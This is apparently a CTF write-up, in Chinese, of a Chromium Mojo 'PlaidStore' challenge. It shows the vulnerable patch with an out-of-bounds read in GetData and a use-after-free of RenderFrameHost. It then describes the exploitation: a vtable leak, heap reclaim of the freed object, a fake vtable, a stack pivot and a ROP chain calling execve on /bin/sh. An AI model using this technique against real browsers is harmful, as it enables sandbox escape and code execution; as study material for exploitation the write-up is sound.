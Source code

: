 # 漏洞
1.没有对getdata的count做校验，导致越界读
```
+void PlaidStoreImpl::GetData(
+    const std::string &key,
+    uint32_t count,
+    GetDataCallback callback) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    std::move(callback).Run({});
+    return;
+  }
+  auto it = data_store_.find(key);
+  if (it == data_store_.end()) {
+    std::move(callback).Run({});
+    return;
+  }
+  std::vector<uint8_t> result(it->second.begin(), it->second.begin() + count);
+  std::move(callback).Run(result);
+}
```

2.

PlaidStoreImpl具体定义如下，注意在构造时存储了render_frame_host_
```
+namespace content {
+
+class RenderFrameHost;
+
+class PlaidStoreImpl : public blink::mojom::PlaidStore {
+ public:
+  explicit PlaidStoreImpl(RenderFrameHost *render_frame_host);
+
+  static void Create(
+      RenderFrameHost* render_frame_host,
+      mojo::PendingReceiver<blink::mojom::PlaidStore> receiver);
+
+  ~PlaidStoreImpl() override;
+
+  // PlaidStore overrides:
+  void StoreData(
+      const std::string &key,
+      const std::vector<uint8_t> &data) override;
+
+  void GetData(
+      const std::string &key,
+      uint32_t count,
+      GetDataCallback callback) override;
+
+ private:
+  RenderFrameHost* render_frame_host_;
+  std::map<std::string, std::vector<uint8_t> > data_store_;
+};
+
+} // namespace content

+namespace content {
+
+PlaidStoreImpl::PlaidStoreImpl(
+    RenderFrameHost *render_frame_host)
+    : render_frame_host_(render_frame_host) {}
+
+PlaidStoreImpl::~PlaidStoreImpl() {}
+
+void PlaidStoreImpl::StoreData(
+    const std::string &key,
+    const std::vector<uint8_t> &data) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    return;
+  }
+  data_store_[key] = data;
+}
+
+void PlaidStoreImpl::GetData(
+    const std::string &key,
+    uint32_t count,
+    GetDataCallback callback) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    std::move(callback).Run({});
+    return;
+  }
+  auto it = data_store_.find(key);
+  if (it == data_store_.end()) {
+    std::move(callback).Run({});
+    return;
+  }
+  std::vector<uint8_t> result(it->second.begin(), it->second.begin() + count);
+  std::move(callback).Run(result);
+}
+
+// static
+void PlaidStoreImpl::Create(
+    RenderFrameHost *render_frame_host,
+    mojo::PendingReceiver<blink::mojom::PlaidStore> receiver) {
+  mojo::MakeSelfOwnedReceiver(std::make_unique<PlaidStoreImpl>(render_frame_host),
+                              std::move(receiver));
+}
+
+} // namespace content
```

此处一个MakeSelfOwnedReceiver表面此PlaidStoreImpl是一个StrongBinding，这意味着它掌控它自己，只有当interface关闭了或者出现通信错误了才会调用析构函数。这样的话，如果我们先释放了RenderFrameHost，再在PlaidStoreImpl中调用的话，就是一个UaF漏洞了。通过伪造vtable，我们可以在调用render_frame_host_->IsRenderFrameLive()时控制程序流程。
```
+void PlaidStoreImpl::Create(
+    RenderFrameHost *render_frame_host,
+    mojo::PendingReceiver<blink::mojom::PlaidStore> receiver) {
+  mojo::MakeSelfOwnedReceiver(std::make_unique<PlaidStoreImpl>(render_frame_host),
+                              std::move(receiver));
+}
```

# 利用

## 泄露地址

每一个PlaidStoreImpl的排布大致如下，如果我们申请多个，在getdata的时候就可以读取下一个PlaidStoreImpl的vtable和render_frame_host
```
0x0000558de05837a0 <= vtable    0x000021499c6e4400 <= render_frame_host
0x000021499c74e048 <= data      0x0000000000000000
```
浏览器基地址可以通过vtable算出,用于寻找gadget，render_frame_host用于后续rop

## uaf

两个函数（storedata和getdata）开头的处都会检查render_frame_host_->IsRenderFrameLive(), 但是并没有检查render_frame_host_ 是否可用，我们可以创建一个iframe ，绑定一个PlaidStoreImpl并泄露render_frame_host返回给 parent, 然后删除这个iframe，这个时候render_frame_host_ 被释放了，但是仍可以调用getData 和storeData
于是可以进行申请PlaidStoreImpl相同size的块获取到被释放的render_frame_host_ , 改写其vtable，然后在执行render_frame_host_->IsRenderFrameLive() 的时候就可以劫持控制流。

RenderFrameHost 对象使用content::RenderFrameHostFactory::Create() 函数创建
```
f1ag@f1ag-virtual-machine:~/chrome$ nm --demangle  ./chrome |grep -i 'content::RenderFrameHostFactory::Create'  
0000000003b219e0 t content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr<content::RenderViewHostImpl>, content::RenderFrameHostDelegate*, content::FrameTree*, content::FrameTreeNode*, int, int, bool)
```
简单跟几步就可以得到RenderFrameHost的size为0xc28
```
0x0000555559075a50 <+112>:   jmp    0x555559075aca <content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr<content::RenderViewHostImpl>, content::RenderFrameHostDelegate*, content::Fram
eTree*, content::FrameTreeNode*, int, int, bool)+234>
// new(0xc28) 
   0x0000555559075a52 <+114>:   mov    edi,0xc28
   0x0000555559075a57 <+119>:   call   0x55555ac584b0 <operator new(unsigned long, std::nothrow_t const&)>
   0x0000555559075a5c <+124>:   mov    rdi,rax
   0x0000555559075a5f <+127>:   mov    rax,QWORD PTR [r14]
   0x0000555559075a62 <+130>:   mov    QWORD PTR [rbp-0x38],rax
   0x0000555559075a66 <+134>:   mov    QWORD PTR [r14],0x0
   0x0000555559075a6d <+141>:   sub    rsp,0x8
   0x0000555559075a71 <+145>:   movzx  eax,BYTE PTR [rbp+0x20]
   0x0000555559075a75 <+149>:   lea    rdx,[rbp-0x38]
   0x0000555559075a79 <+153>:   mov    r14,rdi
   0x0000555559075a7c <+156>:   mov    rsi,rbx
   0x0000555559075a7f <+159>:   mov    rcx,r13
   0x0000555559075a82 <+162>:   mov    r8,r12
   0x0000555559075a85 <+165>:   mov    r9,r15
```
覆写fakevtable中的IsRenderFrameLive
查看getdata头部第一次函数调用，这里就是IsRenderFrameLive
```
.text:0000000003C582C1                 mov     r15, rcx
.text:0000000003C582C4                 mov     r12d, edx
.text:0000000003C582C7                 mov     r14, rsi
.text:0000000003C582CA                 mov     rbx, rdi
.text:0000000003C582CD                 mov     rdi, [rdi+8]
.text:0000000003C582D1                 mov     rax, [rdi]
.text:0000000003C582D4                 call    qword ptr [rax+160h] ;here is IsRenderFrameLive
.text:0000000003C582DA                 test    al, al
.text:0000000003C582DC                 jz      loc_3C5836E
.text:0000000003C582E2                 lea     rdi, [rbx+10h]
.text:0000000003C582E6                 mov     rsi, r14
```
## rop布局
uaf_ta[3] = BigInt(pop_rdi_ret);
    uaf_ta[4] = BigInt(0x31313131313131); // vtable+0x178
    uaf_ta[5] = BigInt(pop_rsi_ret);
    uaf_ta[6] = BigInt(0);
    uaf_ta[7] = BigInt(pop_rdx_ret);
    uaf_ta[8] = BigInt(0);
    uaf_ta[9] = BigInt(pop_rax_ret);
    uaf_ta[10] = BigInt(59);
    uaf_ta[11] = BigInt(syscall);
xchg rax, rsp中rax的值通过在IsRenderFrameLive下断点即可得知
```
frame_addr =>   [0x00] : vtable  ==> frame_addr + 0x10  ------------\
				[0x08] : none										|
				[0x10] : none										|
                [0x18] : gadget => pop rdi                 			|
            /-- [0x20] : frame_addr + 0x178 						|
            |   [0x28] : gadget => pop rsi                          |
            |   [0x30] : 0     										|
			|	[0x38] : gadget => pop rdx                          |
            |   [0x40] : 0                       					| vtable+0x10   
            |   [0x48] : gadget => pop rax   						|
			|   [0x50] : 59   										|
			|   [0x58] : gadget => syscall  						|
            |   ...                                                 V
            |   [0x160 + 0x10] : xchg rax, rsp ;(rax=vtable) <= isRenderFrameLive
            ->  [0x160 + 0x18] :  "/bin/sh\x00"
```
